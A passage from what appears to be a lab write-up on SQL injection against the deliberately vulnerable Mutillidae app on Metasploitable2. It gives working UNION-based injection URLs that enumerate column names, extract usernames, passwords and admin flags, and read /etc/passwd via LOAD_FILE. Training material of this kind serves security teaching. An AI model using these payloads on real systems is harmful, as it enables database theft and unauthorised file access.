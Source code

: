 
The url once executed will  retrieve table names from the “owasp 10” database.
## Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
The column names of the accounts is displayed below for the following url:

http://192.168.46.129/mutillidae/index.php?page=user-info.php&username=Ashqar%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![20](https://github.com/user-attachments/assets/892f8b48-9852-477d-9ab7-f09f81a88ed6)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.46.129/mutillidae/index.php?page=user-info.php&username=Ashqar%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![21](https://github.com/user-attachments/assets/cdf8d0f4-25a9-4fc4-90bd-ca96b4222fea)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.46.129/mutillidae/index.php?page=user-info.php&username=Ashqar%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![22](https://github.com/user-attachments/assets/273449b1-ad4b-4e23-b82b-09652233db8f)



## RESULT:

The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
